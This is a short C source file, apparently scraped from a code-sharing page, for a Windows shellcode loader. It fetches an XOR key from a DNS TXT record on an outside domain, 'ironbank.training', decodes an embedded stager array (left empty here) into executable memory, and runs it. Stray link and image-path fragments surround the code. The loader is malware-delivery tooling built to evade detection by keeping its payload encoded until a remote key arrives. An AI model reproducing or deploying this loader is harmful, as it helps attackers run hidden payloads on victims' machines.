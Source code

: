 ```
#include <windows.h>
#include <windns.h>

unsigned char stager[] = { };

DWORD getKey(void) {
	PDNS_RECORD txtData;
	DNS_STATUS status;

	
	status = DnsQuery_A("ironbank.training", DNS_TYPE_TEXT, DNS_QUERY_STANDARD, NULL, &txtData, NULL);
	if (status != 0) {
		return 0;
	}

	
	return *(DWORD*)(*txtData->Data.Txt.pStringArray);
}

void decode(DWORD key, const char *input, char *output, DWORD len) {
	int i = 0;

	for (i = 0; i < len; i+=4) {
		*(DWORD*)(output+i) = *(DWORD *)(input+i) ^ key;
		key++;
	}
}

int main()
{
	DWORD oldProtect;
	void* decryptedStager;

	decryptedStager = VirtualAlloc(NULL, sizeof(stager), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	//VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
	//int (*shellcode)() = (int(*)())(void*)stager;
	decode(getKey(), stager, (char*)decryptedStager, sizeof(stager));
	int (*shellcode)() = (int(*)())(void*)decryptedStager;
	shellcode();
}
```
[Relative link](<./a3af6d902a74a0afd1c2d79aadc9bb3f> "Optional title")
https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w
[Reference link ID]: <https://example.com/>
